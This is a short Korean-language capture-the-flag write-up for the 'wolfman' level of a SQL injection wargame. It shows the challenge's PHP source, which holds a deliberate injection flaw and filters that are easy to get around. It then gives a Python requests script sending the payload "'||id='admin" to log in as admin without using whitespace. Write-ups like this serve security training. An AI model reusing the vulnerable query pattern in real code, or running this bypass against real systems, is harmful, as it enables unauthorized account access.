 ## Wolfman Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");  
$query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("wolfman");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params= {}
params['pw'] = "'||id='admin"

res = requests.get(url, cookies=cookies, params=params)
if "Clear" in res.text :
    print("[♪] WOLFMAN Clear!")
```
이번 문제는 id가 admin이면 풀리는 문제이다.  
쿼리문을 보면 `id='guest'`로 되어있고, 공백이 필터링 되어 있으므로 공백없이 이를 우회하면 된다.   
GET 방식으로 전송되는 pw에 `'||id='admin`을 넣어주면 쿼리문은 아래와 같이 된다.
``` php
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```
id가 admin이므로 문제가 풀린다.